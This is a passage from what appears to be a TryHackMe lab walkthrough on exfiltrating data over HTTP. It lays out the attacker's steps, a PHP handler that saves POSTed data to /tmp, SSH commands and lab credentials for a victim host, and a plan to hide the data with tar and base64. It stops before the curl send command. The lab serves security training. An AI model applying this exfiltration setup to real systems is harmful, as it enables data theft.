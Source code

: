 To exfiltrate data over the HTTP protocol, we can apply the following steps:

1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Now from the **Jump** machine, connect to the victim1.thm.com machine via SSH to exfiltrate the required data over the HTTP protocol. Use the following SSH credentials: thm:tryhackme.

- **Connecting to Victim1 machine from Jump Box**

```shell
thm@jump-box:~$ ssh thm@victim1.thm.com
```

You can also connect to it from AttackBox using port 2022 as follow,

Connecting to Victim1 machine from AttackBox

```shell
thm@attacker$ ssh thm@10.10.101.197 -p 2022
```

The goal is to transfer the folder's content, stored in /home/thm/task6, to another machine over the HTTP protocol.

- **Checking the Secret folder!**

```shell
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```

Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,
